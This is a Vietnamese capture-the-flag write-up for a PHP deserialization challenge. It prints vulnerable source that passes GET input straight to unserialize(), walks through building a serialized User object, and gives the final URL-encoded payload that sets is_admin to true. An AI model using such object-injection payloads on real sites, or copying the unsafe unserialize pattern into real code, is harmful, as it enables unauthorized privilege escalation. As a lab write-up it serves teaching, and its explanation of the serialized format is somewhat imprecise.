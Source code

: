 # CTF Cây nhà lá vườn :D
##  PHP Serialize CTF 
  Link : http://45.122.249.68:10001/

  Source code của bài:

  ```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
  ```

## Ý tưởng của bài 
  ```php
  class User{
  private $name;
  private $is_admin = false;
  public function __construct($name){
      $this->$name = $name;
  }
  public function __destruct(){
      if($this->is_admin === true){
          echo "hi admin, here is your flag";
      }
  }
}
  ```

  Trong hàm __detruct() của class User sẽ kiểm tra điều kiện is_admin === true thì web sẽ in ra kết quả "hi admin, here is your flag". Vậy chỉ cần gán giá trị cho is_admin = 1 là xong. ez :D
  
  ```php
    if(isset($_GET['code']))
    {
        unserialize($_GET['code']);
    }
    else
    {
        highlight_file(__FILE__);
    }
  ```
  Ở đây web sẽ nhận 1 parameter **code** sau đó sẽ unserialize giá trị truyền vào để tiếp tục thực thi. Do giá trị code này không được kiểm tra trước khi thực thi,nên chỉ cần tạo 1 payload serialize sao cho chuyển giá trị is_admin =1 là giải được bài này. 

## Create Payload
  Sử dụng vscode để debug và lệnh php -S 127.0.0.1 9000 code.php để debug trên localhost
 
  <img src="https://imgur.com/nzePFET">
  
  Tạo thêm 1 đoạn code để tạo serialize payload 

  ```php
  <?php 
    class User{
        private $name;
        private $is_admin = false;
        public function __construct($name){
            $this->$name = $name;
            var_dump($name);
        }
        public function __destruct(){
            if($this->is_admin === true){
                echo "hi admin, here is your flag";
            }
        }
    }  

 	// Create a object
    $a = new User("CaLopChacChuaCoAiLamDuocDau");
    
    // Print a after serialize
 	echo serialize($a);
?>
  ```

  Chạy đoạn code trên : **php -f exploit.php** Kết quả sẽ được 1 chuỗi sau khi serialize

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Sửa lại chuỗi **s:14:"Useris_admin";b:1;**

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Do biến $name và $is_admin là 2 biến được đặt ở private nên khi serialize sẽ tạo ra Username và Useris_admin. Do format khi serialize của PHP
  
  Nhưng khi thực thi payload này kết quả sẽ **không** trả về. Do việc deserialize bị lỗi 

  <img src="https://imgur.com/zyQvjMv">
  
  Vì vậy cần sửa lại payload 1 chút để khi deserialize sẽ cho ra kết quả mong muốn

  ```
  O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```
## Kết quả 
  Thực hiện chèn payload trên vào biến code 

  ?code=O:4:%22User%22:3:{s:4:%22name%22;N;s:8:%22is_admin%22;b:1;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;}

  Kết quả ez :D 

  <img src="https://imgur.com/phCU6LU">

## Tài liệu tham khảo
  PHP Classes and Object : https://www.php.net/manual/en/language.oop5.php

  PHP serialize : https://www.php.net/manual/en/function.serialize.php

  Youtube about POP (Babytalk) : https://www.youtube.com/watch?v=DDxRn3CNdeQ


  


